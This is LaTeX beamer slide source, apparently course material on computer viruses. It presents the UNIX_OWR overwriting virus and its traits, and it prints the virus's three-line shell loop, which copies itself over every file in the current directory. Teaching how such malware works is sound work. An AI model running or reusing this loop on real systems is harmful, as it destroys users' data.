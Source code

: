 \documentclass{beamer}
\begin{document}
\section{Real-World Examples}

\subsection{The \texttt{UNIX\_OWR} Virus}


\begin{frame}[fragile]
\frametitle{The \texttt{UNIX\_OWR} Virus}
\texttt{UNIX\_OWR} (for overwrite) is a simple and small virus,
it works by overwriting code.

\medskip

\begin{block}{The \texttt{UNIX\_OWR} Virus}
\begin{semiverbatim}
for file in *; do # for every file
    cp $0 $file # overwrite the target file with the virus
done
\end{semiverbatim}
\end{block}
\end{frame}


\begin{frame}
\frametitle{Characteristics of \texttt{UNIX\_OWR}}
\begin{itemize}
\item Its scope is limited to the current directory.
\item It infects all files (executable or not).
\item The virus overwrites itself, causing the error message
\begin{center}
\texttt{cp : '.\slash v' and 'v' are the same file}
\end{center}
which may alert the user.
\item The virus is not stealthy: all infected files have the same size.
\end{itemize}
\end{frame}





\subsection{The \texttt{UNIX\_HEAD} Virus}
\end{document}
